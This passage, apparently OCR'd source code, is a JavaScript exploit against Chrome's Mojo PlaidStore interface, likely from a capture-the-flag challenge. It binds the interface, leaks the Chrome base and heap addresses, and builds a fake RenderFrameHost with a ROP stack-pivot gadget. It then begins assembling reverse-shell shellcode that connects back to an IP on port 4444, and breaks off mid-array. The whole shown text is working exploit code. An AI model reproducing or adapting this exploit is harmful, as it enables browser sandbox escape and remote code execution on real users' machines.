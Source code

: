 ```html
    async function exploit() {
      let plaid_store = new blink.mojom.PlaidStorePtr();
      let plaid_store_req = mojo.makeRequest(plaid_store);
      Mojo.bindInterface(blink.mojom.PlaidStore.name,
                         plaid_store_req.handle, "context", true); 

      while (!plaid_store.ptr.isBound());

      var chrome_base = 0n;

      while (!chrome_base) {
        chrome_base = await get_chrome_base(plaid_store);
      }

      var heap_leak = 0n;
      while (!heap_leak) {
        heap_leak = await get_heap_addr(plaid_store, chrome_base);
      }

      let fake_rfh = new Array(0xd00);
      fake_rfh.fill(0x41);

      let buffer = new ArrayBuffer(8);
      let u8_arr = new Uint8Array(buffer);
      let bi_arr = new BigUint64Array(buffer);

      let rebase = function(val) {
        let v = val + chrome_base;
        bi_arr[0] = v;
        let a = [];
        for (var i = 0; i < 8; ++i)
          a.push(u8_arr[i]);
        return a;
      }

      let pack_val = function(arr, offset, v) {
        bi_arr[0] = v;
        for (var i = 0; i < 8; ++i)
          arr[offset+i] = u8_arr[i];
      }

      let pack_gad = function(arr, offset, v) {
        rebased = rebase(v);
        for (var i = 0; i < 8; ++i)
          arr[offset+i] = rebased[i];
      }

      /* 0x058a32f8: push rdi ; pop rsp ; pop rbp ; ret  ;  (1 found) */
      let pivot_addr = 0x058a32f8n;

      /* stash this far away */
      let gad_start = 0x500n;
      pack_gad(fake_rfh, Number(gad_start), pivot_addr);
      
      /* vtable.IsRenderFrameAlive points to our pivot_addr */
      let vtable_loc = heap_leak - 0x160n + gad_start;

      prefix = [0x68] 

      /* connect back address, default port is 4444 */
      ip = [127, 0, 0, 1];
      
      suffix = [102, 104, 17, 92, 102, 106, 2, 106, 42, 106, 16, 106, 41, 106,
```